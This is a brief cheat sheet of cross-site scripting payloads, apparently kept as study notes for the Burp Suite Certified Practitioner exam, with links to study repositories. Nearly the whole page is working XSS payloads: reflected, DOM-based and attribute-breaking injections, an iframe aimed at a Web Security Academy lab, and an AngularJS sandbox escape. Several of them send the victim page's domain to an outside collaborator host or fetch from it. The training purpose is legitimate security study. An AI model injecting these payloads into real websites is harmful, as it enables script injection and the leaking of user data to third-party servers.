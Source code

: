 ___
[https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study)

[https://github.com/DingyShark/BurpSuiteCertifiedPractitioner](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner)

[https://deephacking.tech/burp-suite-certified-practicioner-review-bscp/](https://deephacking.tech/burp-suite-certified-practicioner-review-bscp/)


```html
<script>location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;</script>
```


DOM Based XSS
```html
#"><img src="x" onerror="location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;">
```


```js
javascript:alert(1)
```

```html
<iframe src="https://0a190064039da4c7853828e6009e004c.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

`
```js
"onfocus="alert(1)
```

```js
"onmouseover="location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;
```

```js
';alert(1)//
```


# Practitioner

```html
"></select><img src=1 onerror=document.location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;">
```

```js
{{constructor.constructor('fetch("https://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun")')()}}
```






